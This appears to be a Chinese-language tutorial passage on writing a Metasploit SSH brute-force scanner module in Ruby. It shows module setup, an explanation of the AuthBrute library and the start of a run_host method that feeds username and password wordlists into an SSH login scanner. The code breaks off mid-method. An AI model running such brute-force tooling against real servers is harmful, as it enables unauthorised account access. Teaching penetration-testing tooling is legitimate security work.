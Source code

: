 刚才编写了一个ftp的banner模块

核心代码只有仅仅8行，msf yyds！

现在来编写一个

##### ssh的爆破模块

基本代码

```ruby
require 'msf/core' 
require 'metasploit/framework/credential_collection' 
require 'metasploit/framework/login_scanner/ssh' 
class Metasploit3 < Msf::Auxiliary 
 include Msf::Auxiliary::Scanner 
 include Msf::Auxiliary::Report 
 include Msf::Auxiliary::AuthBrute 
def initialize 
 super( 
 'Name' => 'SSH Scanner', 
 'Description' => %q{ 
 My Module. 
 }, 
 'Author' => 'Nipun Jaswal', 
 'License' => MSF_LICENSE 
 ) 
 register_options( 
 [ 
 Opt::RPORT(22) 
 ], self.class) 
 End
```

之前引入了Msf::Auxiliary::Scanner和Msf::Auxiliary:: Report，下面引入另外一个库文件Msf::Auxiliary::AuthBrute

|         引入语句          |                 路 径                 |                            用 途                             |
| :-----------------------: | :-----------------------------------: | :----------------------------------------------------------: |
| Msf::Auxiliary::AuthBrute | /lib/msf/core/auxiliary/auth_brute.rb | 提供了必要的暴力破解机制和功能，例如提供了单独的登录用户名和密码表、生词表、空密码等选项 |

前面的代码引入了三个库文件，分别是msf/core、metasploit/framework/login_scanner/ssh和
metasploit/framework/credential_collection。 msf/core库文件包含了 core库的路径。 metasploit/ 
framework/login_scanner/ssh包含了SSH登录扫描库，利用这个库可以避免所有的手动操作，它还
提供了SSH扫描的基础API。metasploit/framework/credential_collection帮助我们通过使用datastore
中的用户输入，创建复合的登录凭证。

核心代码1

```ruby
def run_host(ip) 
 cred_collection = Metasploit::Framework::CredentialCollection.new( 
 blank_passwords: datastore['BLANK_PASSWORDS'], 
 pass_file: datastore['PASS_FILE'], 
 password: datastore['PASSWORD'], 
 user_file: datastore['USER_FILE'], 
 userpass_file: datastore['USERPASS_FILE'], 
 username: datastore['USERNAME'], 
 user_as_pass: datastore['USER_AS_PASS'], 
 ) 
 scanner = Metasploit::Framework::LoginScanner::SSH.new( 
 host: ip, 
 port: datastore['RPORT'], 
 cred_details: cred_collection, 
 proxies: datastore['Proxies'], 
 stop_on_success: datastore['STOP_ON_SUCCESS'], 
 bruteforce_speed: datastore['BRUTEFORCE_SPEED'], 
 connection_timeout: datastore['SSH_TIMEOUT'], 
 framework: framework, 
```